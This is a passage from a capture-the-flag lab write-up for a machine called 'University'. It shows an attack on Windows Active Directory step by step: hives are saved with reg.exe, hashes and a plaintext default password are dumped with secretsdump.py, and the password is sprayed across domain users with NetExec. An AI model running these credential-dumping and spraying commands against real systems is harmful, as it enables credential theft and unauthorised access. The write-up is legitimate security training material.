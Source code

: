 ```console
    Cache Flags: 0 
    Kdc Called:

PS C:\tmp> type \\dc.university.htb\c$\users\Administrator\Desktop\root.txt
<REDACTED>
```

### Method 2
Another option we have is to dump the SAM database (download it with session in Evil-WinRM). Then we run `secretsdump.py` to to spit out every hash in the system, including the golden ticket: a default password chilling in plaintext.

```console
C:\tmp> hostname
WS-3
C:\tmp> reg.exe save hklm\sam SAM
The operation completed successfully.
C:\tmp> reg.exe save hklm\system SYSTEM
The operation completed successfully.
C:\tmp> reg.exe save hklm\security SECURITY
The operation completed successfully.

$ secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xcafb76872642f6bc09dd9e17ae7cddec
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ba76a28db8aaeb636566a414f3e104aa:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:71ffc7b2d302f8059b92219e7d7a7ba1:::
sshd:1001:aad3b435b51404eeaad3b435b51404ee:a8bf1bae201f988dc1ca99f1043e11dc:::

<SNIP>

[*] DefaultPassword 
(Unknown User):v3ryS0l!dP@sswd#X
[*] Cleaning up...
```

We see `v3ryS0l!dP@sswd#X` and think: ohhh this is too easy. Password spraying time.

```console
$ nxc smb 10.10.11.39 -u ad_users.txt -p 'v3ryS0l!dP@sswd#X' --continue-on-success
```

Run it against `ad_users.txt` with NetExec, and guess what? `Brose.W` is just waiting there with the same password, Backup Operators group, ripe for some NTDS shadow-copy shenanigans.

![](/assets/images/writeups/university/BH-brose.w.png)
